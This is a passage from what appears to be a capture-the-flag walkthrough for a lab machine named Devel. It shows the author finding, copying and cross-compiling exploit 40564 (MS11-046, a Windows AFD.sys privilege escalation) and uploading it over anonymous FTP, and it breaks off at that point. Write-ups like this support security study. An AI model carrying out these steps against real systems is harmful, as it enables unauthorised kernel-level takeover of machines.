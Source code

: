 ```
----------------------------------------------------------------------------------------------- ----------------------------------------------- 

MS11-046 - Dissecting a 0day                                                                   | docs/english/18712-ms11-046---dissecting-a-0da

----------------------------------------------------------------------------------------------- ----------------------------------------------- 
```

18755, a DOS attack and 40564 a local priv escalation. Lets look at the priv esc:

``` bash
searchsploit 40564 -x
```

Scrolling through we get a better idea of the exploit:

```
################################################################
# Vulnerability description:
#   The Ancillary Function Driver (AFD) supports Windows sockets 
#   applications and is contained in the afd.sys file. The afd.sys
#   driver runs in kernel mode and manages the Winsock TCP/IP
#   communications protocol. 
#   An elevation of privilege vulnerability exists where the AFD
#   improperly validates input passed from user mode to the kernel.
#   An attacker must have valid logon credentials and be able to
#   log on locally to exploit the vulnerability.
#   An attacker who successfully exploited this vulnerability could
#   run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM
#   privileges).
################################################################
```

We'll copy 40564 to our local directory.

``` bash
searchsploit 40564 -m
```

And cross compile it using mingw-w64 for windows x86 architecture on our Kali:

```
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

I connect back to Devel via FTP, set the transfer mode to binary and copy it to the target.

```
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:bhero): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> set binary
?Invalid command
ftp> binary
200 Type set to I.
```
